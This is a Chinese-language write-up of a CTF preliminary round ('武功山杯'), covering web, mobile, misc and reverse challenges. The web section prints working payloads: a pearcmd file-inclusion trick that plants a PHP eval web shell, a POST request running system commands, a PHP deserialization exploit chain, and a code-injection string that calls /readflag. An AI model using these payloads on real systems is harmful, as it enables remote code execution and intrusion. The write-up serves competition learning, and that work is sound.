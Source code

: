 ```yaml
---
title: 武功山杯初赛
date: 2024-7-25
categories: CTF
author: 赛博保安
description: '初赛半天,还是很有意思的!'
cover: 'https://gitee.com/eviden/img/raw/master/202407260655025.png'
abbrlink: 5184866e
---
```


> date: 2024-7-25
>
> author/team: 赛博保安

----

> 驴友小镇

![image-20240725161345705](https://gitee.com/eviden/img/raw/master/202407251613026.png)

![image-20240725161424862](https://gitee.com/eviden/img/raw/master/202407251614114.png)

> 龙溪秘境

bp爆破得到账号密码:
test:654321(ps:密码base64编码)
![image-20240725161630181](https://gitee.com/eviden/img/raw/master/202407251616491.png)

>武功论剑

开题源码:

```php
<?php 
show_source(__FILE__);
if(isset($_GET['file'])){
    if(preg_match("/flag/i",$_GET['file'])){
        echo "no way";
    }
    else{
        $file=$_GET['file'];
        include_once($file);
    }
```

**pearcmd文件包含**

手写一个🐎子进去`?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[c]);?>+/tmp/shell.php`

然后访问:

```
POST /source.php?file=/tmp/shell.php HTTP/1.1
Host: 59.62.61.30:45255
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

c=system("tac /flag");
```



![image-20240725162102201](https://gitee.com/eviden/img/raw/master/202407251621343.png)

> 石能为鼓

```php
<?php
show_source(__FILE__);

class ping {
    protected $xiang;

    function __construct() {
        $this->xiang = new fun();
    }

    function __destruct() {
        $this->xiang->cp();
    }
}

class fun {
    function cp() {
        echo "hello";
    }
}

class cup {
    private $data;
    function cp() {
        eval($this->data);
    }
}

unserialize($_GET['d']);

```

简简单单反序列化
EXP:

```php
<?php
class ping {
    protected $xiang;
    function __construct($xiang) {
        $this->xiang = $xiang;
    }
}

class cup {
    private $data;
    function __construct($data) {
        $this->data = $data;
    }
}

$cup = new cup("system('cat /fl*');");
$ping = new ping($cup);
echo urlencode(serialize($ping));

//O%3A4%3A%22ping%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00xiang%22%3BO%3A3%3A%22cup%22%3A1%3A%7Bs%3A9%3A%22%00cup%00data%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D

```

> 萍水相逢

貌似是原题:
搜到题解,**拿来主义咯!**!

`https://fanygit.github.io/2021/08/22/[web]%E4%B8%80%E9%81%93TimelineSec%E5%9B%A2%E9%98%9F%E5%85%A5%E9%98%9F%E9%A2%98/`

EXP:**?code='input'('cmd')('input'('value'));&cmd=system&value=/readflag **  ——> 拿走!一步到位

> 九龙吐水

PWN 题真的水吧可能,有且只有一题,队里web手写的

![img](https://gitee.com/eviden/img/raw/master/202407251633494.png)

![img](https://gitee.com/eviden/img/raw/master/202407251633560.jpg)

> 葛仙炼丹

**Mobile**

![image-20240725163741783](https://gitee.com/eviden/img/raw/master/202407251637841.png)

![image-20240725163759224](https://gitee.com/eviden/img/raw/master/202407251637296.png)

Apk文件，用jeb打开，搜关键字符串flag，看到checkflag函数，关注到下面有个xor,和两堆字符串，将他们异或输出为字符就得到flag了

![image-20240725163809147](https://gitee.com/eviden/img/raw/master/202407251638213.png)

![image-20240725163817127](https://gitee.com/eviden/img/raw/master/202407251638191.png)

> 星空栈道

**MISC**

首先打开，发现文件叫base.txt，然后立刻想到了base转图片，转了之后，发现图片损坏打不开，然后用010打开，发现其为elf文件，把后缀改成elf，用ida64打开

![image-20240725164026673](https://gitee.com/eviden/img/raw/master/202407251640785.png)

发现循环异或就欧克了

> 九龙吐水

![image-20240725164048961](https://gitee.com/eviden/img/raw/master/202407251640049.png)

先得10分找到，计分的地址，将分数修改为10000000

![image-20240725164101191](https://gitee.com/eviden/img/raw/master/202407251641343.png)

> 花炮故里

打开txt,根据提示python可知，文件为python字节码，大致意思就是，输入flag,存到flaglist里面，然后对比flaglist的长度和已知数组ress的长度，不一样就退出，然后判断flaglist里的数加3，然后异或152是不是等于ress，如果等于就输出success，解密只要将ress里的数异或152，再减3即可

![image-20240725164139491](https://gitee.com/eviden/img/raw/master/202407251641553.png)

![image-20240725164157302](https://gitee.com/eviden/img/raw/master/202407251641379.png)

> 龙鳞石阶

打开流量包，找到dns部分，看到一些base+......的字符串，猜测为base64解密，试了一下，用最后几个可以解出flag

![image-20240725164216963](https://gitee.com/eviden/img/raw/master/202407251642075.png)

> 金顶绝境

首先查壳，发现64无壳

发现一堆字符串和base64码表

![image-20240725164248724](https://gitee.com/eviden/img/raw/master/202407251642798.png)

猜测为base64加密

转为字符串发现为Zmxh开头,更加肯定了猜想

![image-20240725164302689](https://gitee.com/eviden/img/raw/master/202407251643763.png)

Base64解码得到flag

> 铁蹄关隘

**道具题**

![image-20240725170452378](https://gitee.com/eviden/img/raw/master/202407251704502.png)

![img](https://gitee.com/eviden/img/raw/master/202407251705771.png)